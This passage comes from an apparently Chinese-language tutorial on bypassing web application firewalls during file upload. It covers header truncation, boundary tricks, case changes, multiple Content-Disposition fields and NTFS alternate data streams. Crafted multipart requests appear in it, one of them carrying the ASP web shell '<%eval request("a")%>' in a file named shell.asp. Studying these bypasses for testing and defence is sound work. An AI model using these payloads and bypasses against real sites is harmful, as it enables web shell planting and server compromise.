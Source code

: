 
*------------------------------------------------2017.2.6更新--------------------------------------------------*
##### 8.5 利用waf本身缺陷
###### 删除实体里面的Conten-Type字段
![](/upload_image/20160922/4.png)
第一种是删除Content整行，第二种是删除C后面的字符。删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php。
```bash
正常包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
构造包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```
###### 删除Content-Disposition字段里的空格
![](/upload_image/20160922/5.png)
增加一个空格导致安全狗被绕过案列：
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
尝试在boundary后面加个空格或者其他可被正常处理的字符：
boundary= ---------------------------47146314211411730218525550
###### 修改Content-Disposition字段值的大小写
![](/upload_image/20160922/6.png)

###### Boundary边界不一致
每次文件上传时的Boundary边界都是一致的：
```bash
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream

<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```
但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：
Win2k3 + IIS6.0 + ASP
![](/upload_image/20160922/7.png)

###### 文件名处回车
![](/upload_image/20160922/8.png)
###### 多个Content-Disposition
在IIS的环境下，上传文件时如果存在多个Content-Disposition的话，IIS会取第一个Content-Disposition中的值作为接收参数，而如果waf只是取最后一个的话便会被绕过，Win2k8 + IIS7.0 + PHP
![](/upload_image/20160922/9.png)

##### 利用NTFS ADS特性
ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。
![](/upload_image/20160922/10.png)
